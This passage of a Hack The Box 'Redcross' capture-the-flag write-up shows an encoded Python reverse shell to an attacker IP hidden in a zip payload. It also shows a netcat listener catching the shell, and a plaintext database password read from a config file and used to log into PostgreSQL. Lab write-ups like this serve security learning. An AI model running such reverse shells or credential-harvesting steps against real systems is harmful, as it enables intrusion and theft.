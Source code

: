 ```console
rqnxoX3Tw3d8O2iX8Dk5onnGyesbvSQiQ9rUGH/mrDuidcMsuHWC2yGV5184zs4RdT/OOXvfpyty
r78ct8j/O2lq4JM3e+e282azxgcLaW1QO3YzRCsjKDjnqH6ANyOTCAPu4IOBBkYGtMAM8GZlA4kx
AqEVkLYFqwAAUEsBAhQAFAAAAAgAuXprTQG0c1hsAQAAjQEAAPIAAAAAAAAAAAAAAIABAAAAAGEi
O3B5dGhvbiAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChz
b2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjIz
Iiw1NTU1KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9z
LmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn
O2VjaG8gImEuemlwUEsFBgAAAAABAAEAIAEAAHwCAAAAAA==
--===============2632093882109835759==--

[HARAKIRI SUCCESS] SMTPDataError is most likely an error unzipping the archive, which is what we want [plugin timeout]
www-data@redcross:/dev/shm$ 
```

```console
root@ragingunicorn:~/hackthebox/Machines/Redcross# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.113] 33380
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)
$ cat user.txt
cat: user.txt: No such file or directory
$ pwd
/
$ cd /home/penelope
$ cat user.txt
ac899b...
```

### Priv esc to root

The NSS plugin is installed, so SSH can authenticate users from the postgresql database instead of `/etc/passwd`

```console
$ cat nss-pgsql.conf
connectionstring        = hostaddr=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw connect_timeout=1
```

We can't read the other file though...

```console
$ cat nss-pgsql-root.conf
cat: nss-pgsql-root.conf: Permission denied
```

With the credentials we can poke inside the database:

```
penelope@redcross:/etc$ psql -h 127.0.0.1 -U unixnss -W unix
psql -h 127.0.0.1 -U unixnss -W unix
Password for user unixnss: fios@ew023xnw

psql (9.6.7)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
Type "help" for help.

unix=> \d
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | group_id     | sequence | postgres
```